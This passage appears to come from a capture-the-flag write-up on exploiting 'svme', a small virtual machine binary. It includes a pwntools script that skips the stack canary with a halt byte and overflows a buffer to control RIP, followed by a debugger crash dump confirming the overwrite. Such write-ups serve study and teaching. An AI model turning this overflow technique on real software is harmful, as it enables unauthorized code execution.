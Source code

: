 ```python
from pwn import *
elf = context.binary = ELF('./svme')
io = gdb.debug('./svme')

# \x12 byte is telling the virtual machine to stop the execution of the program as soon as possible, so we are putting it first inorder to skip 
# the remainding payload that we are sending to avoid segfault in vm_exec function.
info('Skipping the stack canary!')
io.send(b'\x12'+b'\x00'*(128+3))

info('Buffer overflow!')
rbp = b'B'*8
rip = p64(0xdeadbeef)
padding = b'C'*400 # doesn't matter if we exceed 512 bytes the remaining bytes will be discarded.
io.send(rbp + rip + padding)

io.interactive()
```

Our crash!
```c
Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 RAX  0x0
*RBX  0x55b4d12efd90 (__libc_csu_init) ◂— endbr64 
 RCX  0x0
*RDX  0x7fd23aed0be0 —▸ 0x55b4d31ac7c0 ◂— 0x0
*RDI  0x7fd23aed0b80 ◂— 0x0
 RSI  0x0
 R8   0x0
*R9   0x7c
*R10  0x7fd23aed0be0 —▸ 0x55b4d31ac7c0 ◂— 0x0
*R11  0x246
*R12  0x55b4d12ef140 (_start) ◂— endbr64 
*R13  0x7fffa8f791e0 ◂— 0x4343434343434343 ('CCCCCCCC')
 R14  0x0
 R15  0x0
*RBP  0x4242424242424242 ('BBBBBBBB')
*RSP  0x7fffa8f79100 ◂— 0x4343434343434343 ('CCCCCCCC')
*RIP  0xdeadbeef
────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────
Invalid address 0xdeadbeef
```

But ASLR+PIE is enabled so at the moment we are sending our payload we don't have any gadget to jump. So I started investigating the virtual machine code.

### `vm.c`
The source code of the implementation of the virtual machine was in a link inside the `Dockerfile`. 
[Source code](https://github.com/parrt/simple-virtual-machine-C/)
